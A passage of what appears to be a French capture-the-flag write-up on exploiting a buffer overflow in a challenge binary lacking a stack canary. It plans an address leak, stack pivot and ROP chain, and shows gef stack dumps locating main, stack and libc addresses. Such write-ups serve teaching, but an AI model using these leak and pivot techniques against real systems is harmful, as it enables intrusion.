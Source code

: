 Toutes les protections sont présentes, excepté "Fortify". En revanche, si nous vérifions le code de la fonction `upside_down_world_enter`, aucun canary n'est vérifié dans celle-ci. Il est donc possible d'exploiter le buffer overflow sans chercher à contourner le canary.


## Exploitation

### Leak des adresses

Dans un premier temps, nous allons devoir obligatoirement leak des adresses afin d'obtenir des gadgets et concevoir une ROP chain. Les protections de randomisations sont activées (PIE et ASLR), cette étape étant donc indispensable.

Il est possible de leak 100 octets de la stack (voir section **Analyse du binaire**), cela va nous être très utile. Idéalement, nous devrions leak une adresse de la libc afin d'obtenir davantage de gadgets. En effet, le binaire lui-même n'en contient pas suffisamment (aucune compilation en static du binaire ; ça aurait pu aider).

Si nous déréférençons les adresses présentes sur la stack (les 100 premiers octets), aucune adresse de la libc n'est présente mais seulement l'adresse de retour permettant de revenir dans la fonction `main` (`main+0165`) et l'adresse de la stack :

```bash
gef➤  dereference -l 15 $rsp
0x00007fffffffda38│+0x0000: 0x00005555555552ae  →  <main+0165> nop 	 ← $rsp # <==== main address  
0x00007fffffffda40│+0x0008: 0x000000000060000c ("
                                                 "?)
0x00007fffffffda48│+0x0010: 0x00007fffffffda50  →  0x0000000000000020 (" "?) # <==== stack address
0x00007fffffffda50│+0x0018: 0x0000000000000020 (" "?)
0x00007fffffffda58│+0x0020: 0x4000000001000035 ("5"?)
0x00007fffffffda60│+0x0028: 0xffffffff07000015
0x00007fffffffda68│+0x0030: 0x0000000900060015
0x00007fffffffda70│+0x0038: 0x0000000500050015
0x00007fffffffda78│+0x0040: 0x0000000000040015
0x00007fffffffda80│+0x0048: 0x0000000100030015
0x00007fffffffda88│+0x0050: 0x0000000f00020015
0x00007fffffffda90│+0x0058: 0x0000003c00010015
0x00007fffffffda98│+0x0060: 0x000000e701000015
0x00007fffffffdaa0│+0x0068: 0x7fff000000000006
0x00007fffffffdaa8│+0x0070: 0x0000000000000006
```

En revanche, il est tout à fait possible de faire pivoter la stack et de reboucler sur la fonction afin de leak des adresses plus intéressantes. Pour cela, nous allons devoir récupérer l'adresse de la stack afin de réaliser le pivot.

En regardant un peu plus bas dans la stack, nous pouvons retrouver une adresse appartenant à la fonction `__libc_start_call_main`. Cette fonction de la libc est responsable d'appeler la fonction principale du programme, nommé `main`. Il est donc logique de retrouver une adresse de retour à cette dernière. A environ 18 adresses plus basse, nous retrouvons cette adresse :

```bash
gef➤  dereference -l 15 $rsp+(8*14)
0x00007fffffffdaa8│+0x0000: 0x0000000000000006
0x00007fffffffdab0│+0x0008: 0x00007fffffffdba0  →  0x0000555555555060  →  <_start+0000> endbr64 
0x00007fffffffdab8│+0x0010: 0x484532fbff777000
0x00007fffffffdac0│+0x0018: 0x00007fffffffdb60  →  0x00007fffffffdbc0  →  0x0000000000000000	 ← $rbp
0x00007fffffffdac8│+0x0020: 0x00007ffff7c2a1ca  →  <__libc_start_call_main+007a> mov edi, eax			# <=== __libc_start_call_main address
0x00007fffffffdad0│+0x0028: 0x00007fffffffdb10  →  0x0000555555557d88  →  0x0000555555555100  →  <__do_global_dtors_aux+0000> endbr64 
0x00007fffffffdad8│+0x0030: 0x00007fffffffdbe8  →  0x00007fffffffdf50  →  "/home/hack42/kDrive/Documents/Programmations/Hack/[...]"
0x00007fffffffdae0│+0x0038: 0x0000000155554040
0x00007fffffffdae8│+0x0040: 0x0000555555555149  →  <main+0000> push rbp
```